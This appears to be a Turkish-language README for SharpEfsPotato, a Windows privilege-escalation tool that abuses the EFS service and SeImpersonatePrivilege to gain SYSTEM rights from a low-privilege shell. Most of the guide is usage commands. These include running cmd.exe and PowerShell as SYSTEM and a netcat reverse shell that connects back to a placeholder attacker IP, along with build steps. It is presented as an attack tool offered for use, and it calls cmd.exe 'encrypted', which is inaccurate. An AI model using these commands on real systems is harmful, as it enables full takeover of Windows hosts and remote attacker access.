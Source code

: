 c# SharpEfsPotato.exe Kullanım Kılavuzu

## Giriş
SharpEfsPotato, Windows ortamlarında SeImpersonatePrivilege yetkisini kullanarak SYSTEM seviyesinde yetki yükseltmek için tasarlanmış bir aracır. Bu yüzden, genellikle önceden kazanılmış düşük seviyeli bir kabuk (ör. LOCAL SERVICE veya NETWORK SERVICE) üzerinde kullanılır.

---

## Özellikler
- **EFS Abuse**: Windows Encrypting File System (EFS) hizmetini kullanarak SYSTEM yetkisi elde eder.
- **Hedefli Komut Çalıştırma**: Yüksek yetkiyle belirli komutları çalıştırabilir.
- **Basit ve Etkili**: Windows hizmetlerini hedef alarak kolayca SYSTEM yetkisi kazanır.

---

## Gereksinimler
- SeImpersonatePrivilege yetkisine sahip bir kullanıcı hesabı.
- Windows 10 veya Windows Server ortamı.

---

## Komut Satırı Kullanımı

### Yardım Mesajını Görüntüleme
SharpEfsPotato'nun yardım mesajını görmek için:
```cmd
SharpEfsPotato.exe -h
```

### SYSTEM Yetkisiyle Komut Çalıştırma
Bir komutun SYSTEM yetkisiyle çalıştırılması için:
```cmd
SharpEfsPotato.exe -c "<komut>"
```
**Örnek:** SYSTEM seviyesinde bir komut istemi (şifrelenmiş cmd.exe) çalıştırmak için:
```cmd
SharpEfsPotato.exe -c "cmd.exe"
```

### Reverse Shell Açma
Bir uzak sistemden geri bağlantı (örn. Netcat ile) almak için:
```cmd
SharpEfsPotato.exe -c "nc.exe <saldırgan_IP> <port> -e cmd.exe"
```

---

## Örnek Kullanımlar

### Temel SYSTEM Yetki Yükseltme
EFS exploit kullanarak SYSTEM seviyesine geçmek için:
```cmd
SharpEfsPotato.exe
```

### Hedefli Komutları SYSTEM Yetkisiyle Çalıştırma
PowerShell'i SYSTEM yetkisiyle başlatmak için:
```cmd
SharpEfsPotato.exe -c "powershell.exe"
```

### Sistem Bilgisi Toplama
SYSTEM yetkisiyle sistem bilgilerini toplamak için:
```cmd
SharpEfsPotato.exe -c "systeminfo"
```

---

## Derleme Talimatları
SharpEfsPotato kaynak koddan derlenebilir.

### Adımlar:
1. Visual Studio Community Edition'ı indirin ve yükleyin.
2. Projeyi açın (`SharpEfsPotato.sln`).
3. Çözüm yapılandırmasını "Release" olarak seçin.
4. Projeyi derleyin.

---

## Notlar
- Araç, yalnızca SeImpersonatePrivilege yetkisine sahip bir ortamda işlevseldir.
- Bazı sistemlerde exploit çalıştırılmasının engellenmesi için güvenlik yamaları uygulanmış olabilir.

---

## Kaynaklar
- [SharpEfsPotato GitHub](https://github.com/your-repo/SharpEfsPotato)
- [SpecterOps Blog Yazıları](https://posts.specterops.io/)

Bu rehber, SharpEfsPotato aracını kullanmanın temel adımlarını kapsamaktadır. Daha fazla bilgi için yukarıdaki bağlantılara göz atabilirsiniz.
